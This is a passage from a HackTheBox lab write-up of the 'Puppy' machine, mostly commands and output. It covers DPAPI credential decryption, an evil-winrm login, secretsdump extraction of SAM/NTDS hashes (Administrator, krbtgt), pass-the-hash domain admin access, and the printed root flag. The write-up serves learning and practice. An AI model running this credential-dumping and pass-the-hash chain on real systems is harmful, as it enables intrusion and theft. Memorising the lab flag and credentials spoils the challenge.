┌──(kali㉿kali)-[/mnt/…/HackTheBox/Machines/Puppy/smbshare]
└─$ python3 /opt/impacket/examples/dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

Nice, now we can try to winrm as the user <code>steph.cooper_adm</code>:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ evil-winrm -i 10.10.11.70 -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

Looks like the user have the <code>SeBackupPrivilege</code> and <code>SeRestorePrivilege</code> permissions. We can try to dump the secrets using the Impacket <code>secretsdump</code> tool:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ python3 /opt/impacket/examples/secretsdump.py 10.10.11.70/steph.cooper_adm:'FivethChipOnItsWay2025!'@puppy.htb
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
[*] NL$KM 
 0000   DD 1B A5 A0 33 E7 A0 56  1C 3F C3 F5 86 31 BA 09   ....3..V.?...1..
 0010   1A C4 D4 6A 3C 2A FA 15  26 06 3B 93 E0 66 0F 7A   ...j<*..&.;..f.z
 0020   02 9A C7 2E 52 79 C1 57  D9 0C D3 F6 17 79 EF 3F   ....Ry.W.....y.?
 0030   75 88 A3 99 C7 E0 2B 27  56 95 5C 6B 85 81 D0 ED   u.....+'V.\k....
NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
```

I also tried to verify the user <code>Administrator</code> hashes using the NetExec tools before we can winrm to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc winrm 10.10.11.70 -u administrator -H '9c541c389e2904b9b112f599fd6b333d'
WINRM       10.10.11.70     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.10.11.70     5985   DC               [-] PUPPY.HTB\administrator:9c541c389e2904b9b112f599fd6b333d

┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ nxc winrm 10.10.11.70 -u administrator -H 'bb0edc15e49ceb4120c7bd7e6e65d75b' 
WINRM       10.10.11.70     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.10.11.70     5985   DC               [+] PUPPY.HTB\administrator:bb0edc15e49ceb4120c7bd7e6e65d75b (Pwn3d!)
```

Nice! Now we can winrm to the server and complete the box.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Puppy]
└─$ evil-winrm -i 10.10.11.70 -u administrator -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         10/9/2025   7:35 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b><code>21b47366f1576807133ffcdc5eeb8654</code></b>
</details><br>


## 📌 Final Thoughts

Thank you for reading my writeups. Based on this machine, I learned how can we enabled a disabled AD user and exploit the Keepass database files to reveal other users credentials.


## 📚 References:

- NetExec - https://www.netexec.wiki/

- Abusing AD-DACL: GenericWrite - https://www.hackingarticles.in/genericwrite-active-directory-abuse/

- Brute Forcing KeePass Database Passwords - https://infosecwriteups.com/brute-forcing-keepass-database-passwords-cbe2433b7beb

- Brute force Keepass database passwords - https://github.com/toneillcodes/brutalkeepass/

- Abusing AD-DACL : Generic ALL Permissions - https://www.hackingarticles.in/genericall-active-directory-abuse/


- NetExec | Change User Password - https://www.netexec.wiki/smb-protocol/change-user-password

- DPAPI secrets dumping - https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets

- Windows PrivEsc with SeBackupPrivilege - https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960